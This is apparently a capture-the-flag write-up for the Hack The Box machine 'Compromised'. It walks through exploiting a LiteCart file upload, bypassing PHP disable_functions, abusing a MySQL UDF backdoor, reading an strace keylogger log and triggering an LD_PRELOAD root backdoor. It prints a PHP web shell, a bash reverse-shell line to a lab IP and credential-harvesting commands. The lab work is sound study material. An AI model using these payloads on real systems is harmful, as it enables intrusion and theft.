


# Compromised

This is the write-up for the box Compromised that got retired at the 23rd January 2021.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.207    compromised.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/compromised.nmap 10.10.10.207
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6e:da:5c:8e:8e:fb:8e:75:27:4a:b9:2a:59:cd:4b:cb (RSA)
|   256 d5:c5:b3:0d:c8:b6:69:e4:fb:13:a3:81:4a:15:16:d2 (ECDSA)
|_  256 35:6a:ee:af:dc:f8:5e:67:0d:bb:f3:ab:18:64:47:90 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Legitimate Rubber Ducks | Online Store
|_Requested resource was http://10.10.10.207/shop/en/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web site looks like a webshop that sells rubber ducks.
On the top left it says **[LiteCart]**(https://www.litecart.net), which is an open-source E-Commerce platform built with PHP and jQuery.

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.10.207 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds the index directory _/backup_ with an archive file called _a.tar.gz_.

Extracting archive:
```
tar -xf a.tar.gz
```

It extracts the folder _shop_ which seems to have the source code for the webshop.
In there is also a hidden file _.sh.php_ that consists of one line of code that is used to gain command execution:
```
<?php system($_REQUEST['cmd']); ?>
```

This probably means that the website was compromised by an attacker and maybe source files were modified:
```
find . -type f -printf "%T+ %p\n" | sort
```
```
2020-05-28+08:05:57.0000000000 ./.sh.php
2020-09-03+13:49:16.0000000000 ./includes/library/lib_user.inc.php
2020-09-03+13:50:34.0000000000 ./admin/login.php
```

The shell file was placed in May 2020 and in September 2020, the files _lib_user.inc.php_ and _login.php_ were modified.
In _login.php_ another file is referenced:
```
(...)
if (isset($_POST['login'])) {
    //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password
(...)
```

This file can be found on the web page on _shop/admin/.log2301c9430d8593ae.txt_ and it contains credentials:
```
User: admin Passwd: theNextGenSt0r3!~
```

The credentials work on the admin login portal on _shop/admin/login.php_.

### Exploiting LiteCart

In the bottom left it shows that **LiteCart version 2.1.2** is running.
Lets search for public vulnerabilities:
```
searchsploit litecart

LiteCart 2.1.2 - Arbitrary File Upload
```

The exploit can be recreated as follows:
1. Browse to _?app=vqmods&doc=vqmods_
2. Upload a PHP file but with the Content-Type _application/xml_
3. Browse to _../vqmod/xml/_ where the PHP file is uploaded

Creating PHP shell file:
```
<?php system($_REQUEST['cmd']); ?>
```

Uploading _shell.php_ on _?app=vqmods&doc=vqmods_:



Intercepting the request and changing the Content-Type to _application/xml_
```
POST /shop/admin/?app=vqmods&doc=vqmods HTTP/1.1
Host: 10.10.10.207
(...)
Content-Disposition: form-data; name="vqmod"; filename="shell.php"
Content-Type: application/xml
```

Browsing to _/shop/vqmod/xml/shell.php_ and testing command execution:
```
http://10.10.10.207/shop/vqmod/xml/shell.php?cmd=whoami
```

The file is successfully uploaded but the web shell does not execute commands.
Code execution in general does work as it is possible to run the _phpinfo_ function:
```
Content-Type: application/xml

<?php phpinfo(); ?>
```

The row _disable_functions_ contains functions that are disabled and _system_ is one of them, so this blocklist has to be bypassed.
By trying different [bypass methods from HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass#modules-version-dependent-bypasses), the one that will work is the [version dependent one](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/disable_functions-bypass-php-7.0-7.4-nix-only#php-7-0-7-4-nix-only).

Uploading PHP script:
```
POST /shop/admin/?app=vqmods&doc=vqmods HTTP/1.1
(...)
Content-Disposition: form-data; name="vqmod"; filename="shell.php"
Content-Type: application/xml

<?php
# Author: https://github.com/mm0r1

pwn($_REQUEST['cmd']);

function pwn($cmd) {
(...)
```

Now command execution on _shell.php?cmd=whoami_ works and displays the current user as _www-data_.

Executing commands to gain a reverse shell:
```
POST /shop/vqmod/xml/shell.php HTTP/1.1
(...)

cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.7/9001 0>&1'
```

Unfortunately the connection does not respond, so there might be firewall rules:
```
cmd=cat /etc/iptables/rules.v4
```
```
(...)
-A OUTPUT -p tcp -m tcp --sport 22 -m tcp -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 80 -m tcp -j ACCEPT
```

The source port has to be either port 80 or port 22 and every other connection gets dropped.
As it is not possible to get a shell on the box, lets search for sensitive information to get access.

### Enumerating the System

The file _/etc/passwd_ contains all users and the user _mysql_ has an interactive shell set and a user directory which is both unusual:
```
cmd=cat /etc/passwd
```
```
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
```

The credentials for the **MySQL** database can be found in the source code from before in _shop/includes/config.inc.php_:
```
define('DB_TYPE', 'mysql');
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'changethis');
define('DB_DATABASE', 'ecom');
```

Testing if the `mysql` command can retrieve information out of the database:
```
cmd=mysql -u root -pchangethis -e 'show databases;'
```

As this box was compromised, the attacker may have planted persistence mechanisms in the database.
A common way to achieve persistence in **MySQL** is to use **User Defined Functions (UDF)**, which provide a way to create custom functionality on the server and is stored in the _mysql.func_ table:
```
cmd=mysql -u root -pchangethis -e 'SELECT * FROM mysql.func;'
```
```
exec_cmd	0	libmysql.so	function
```

The function _exec_cmd_ makes use of the _libmysql.so_ library:
```
cmd=find / | grep libmysql.so
```
```
/usr/lib/mysql/plugin/libmysql.so
```

This hints that the library is malicious and created by the attacker for persistence.
By researching UDF, [this article](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/) describes the process of creating such a function to act as a backdoor.

Using the information gathered, lets try to run code in the context of the _mysql_ user:
```
cmd=mysql -u root -pchangethis -e 'SELECT exec_cmd("id");'
```
```
exec_cmd("id")
uid=111(mysql) gid=113(mysql) groups=113(mysql)
```

Creating an SSH key with `ssh-keygen` on our local client and writing the contents of the public key into _.ssh/authorized_keys_:
```
cmd=mysql -u root -pchangethis -e 'SELECT exec_cmd("echo -n ssh-rsa AAAAB3NzaC1yc2EAAAADAQAB(...) > .ssh/authorized_keys");'

cmd=mysql -u root -pchangethis -e 'SELECT exec_cmd("cat .ssh/authorized_keys");'
```

After URL-encoding the command and sending the request, it is successfully written to the _authorized_keys_ file.
Connecting to the box via SSH with the user _mysql_:
```
ssh -i compromised.key mysql@10.10.10.207
```

## Privilege Escalation

In the home directory of the _mysql_ user _/var/lib/mysql_ is a suspicious file called _strace-log.dat_, which is the log from a `strace` command.
As this looks like another persistence mechanism from the attacker, [this article](https://www.securitynik.com/2014/04/the-poor-mans-keylogger-strace.html) describes how to use `strace` as a **Key Logger**.

Reading the file and searching for the system call that requests keyboard input:
```
cat strace-log.dat | grep 'read(0'
```
```
(...)
22102 03:11:06 read(0, "p", 1)          = 1
22102 03:11:06 read(0, "a", 1)          = 1
22102 03:11:06 read(0, "s", 1)          = 1
22102 03:11:06 read(0, "s", 1)          = 1
22102 03:11:06 read(0, "w", 1)          = 1
22102 03:11:06 read(0, "o", 1)          = 1
22102 03:11:06 read(0, "r", 1)          = 1
22102 03:11:06 read(0, "d", 1)          = 1
22102 03:11:06 read(0, "=", 1)          = 1
22102 03:11:06 read(0, "'", 1)          = 1
22102 03:11:06 read(0, "3", 1)          = 1
22102 03:11:06 read(0, "*", 1)          = 1
22102 03:11:06 read(0, "N", 1)          = 1
22102 03:11:06 read(0, "L", 1)          = 1
22102 03:11:06 read(0, "J", 1)          = 1
22102 03:11:06 read(0, "E", 1)          = 1
22102 03:11:06 read(0, "3", 1)          = 1
22102 03:11:06 read(0, "2", 1)          = 1
22102 03:11:06 read(0, "I", 1)          = 1
22102 03:11:06 read(0, "$", 1)          = 1
22102 03:11:06 read(0, "F", 1)          = 1
22102 03:11:06 read(0, "e", 1)          = 1
(...)
```

This Key Logger obtained a password:
> password='3*NLJE32I$Fe'

There is only one user with a user directory in _/home_ named _sysadmin_ for which the password works:
```
su sysadmin
```

### Privilege Escalation to root

When searching for more persistence methods, the **LD_PRELOAD** trick is often used to force change the precedence of libraries.
The binary _/bin/bash_ uses an unusual library:
```
ldd /bin/bash

(...)
/lib/x86_64-linux-gnu/libdate.so
```

This can also be found in the _/etc/ld.so.preload_ file:
```
cat /etc/ld.so.preload

/lib/x86_64-linux-gnu/libdate.so
```

Downloading the file to analyze it:
```
scp sysadmin@10.10.10.207:/lib/x86_64-linux-gnu/libdate.so .
```

As this is a shared library, it can be analyzed with any decompiler like **Ghidra**.
It has one Export for the function _read_, which seems to contain a backdoor, when all variables are true:



```
0x776b654f5534736a7638346f6b2f
```

Decoding hex to ASCII:
```
echo 0x776b654f5534736a7638346f6b2f | xxd -r -p

wkeOU4sjv84ok/
```

It begins with the number "2", so the string it expects is:
> 2wkeOU4sjv84ok/

Now a binary with the **Setuid bit** set, that uses the _read_ function has to be executed like `su`:
```
su -
Password: 2wkeOU4sjv84ok/

# id
uid=0(root) gid=0(root) groups=0(root),1000(sysadmin)
```

It works and starts a shell as root!
